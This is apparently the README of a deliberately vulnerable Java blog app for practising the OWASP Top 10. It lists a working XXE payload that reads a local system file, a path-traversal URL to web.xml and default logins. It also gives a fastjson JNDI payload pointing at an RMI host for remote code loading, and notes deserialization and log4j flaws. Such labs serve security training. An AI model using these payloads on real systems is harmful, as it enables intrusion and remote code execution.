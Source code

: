 # Blog
漏洞验证平台，主要为测试owasp top 10漏洞


# A1注入：search.htm

# A2失效的身份认证和会话管理：登录页无限制，可暴力破解
![image](https://user-images.githubusercontent.com/1740718/131211872-d518d5c2-44c7-4110-a53e-c6845272f71d.png)

# A3敏感信息泄漏：file.htm  download.htm?fileName=../WEB-INF/web.xml

# A4 XXE:login2.htm

xml=<!DOCTYPE%20foo%20[<!ELEMENT%20foo%20ANY><!ENTITY%20abc%20SYSTEM%20"file:///c:/windows/win.ini">]><login><username>%26abc;</username><password>fdsf</password></login>

# A5失效的访问控制：水平越权 管理后台-》读取博客

登录帐号：
test/test
tridentj/tridentj

# A6安全配置错误：暂无

# A7 XSS：search.htm  

&lt;img src="img/1.png" /&gt;

# A8不安全的反序列化:upload.htm (apache-commons-collections-3.2.1) resources目录下cc.bin windows下弹出计算器

# A9：fastjson 1.2.24前反序列化漏洞
http://localhost:8080/blog/updateUserInfo.htm

部署环境，参考resources/dependency/fastjson

json提交框中输入以下内容：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.2.13.27:9999/Poc","autoCommit":true}
![image](https://user-images.githubusercontent.com/1740718/133755384-f98ca858-daa6-4642-99eb-47dacd51f858.png)



# A10：无

![image](https://user-images.githubusercontent.com/1740718/131211747-2be958b6-4c49-4a79-b442-2ed0787443de.png)
![image](https://user-images.githubusercontent.com/1740718/168001817-4b62b8ab-d417-42d5-8cf6-a1a3c9e4019a.png)

# log4j RCE
http://localhost:8080/blog/login.htm

![11](https://user-images.githubusercontent.com/1740718/168002930-6d0cc845-7e17-447c-a39d-149e9854f218.png)
![12](https://user-images.githubusercontent.com/1740718/168002945-20d2ded2-c65d-468d-9d87-29d47da625c8.png)




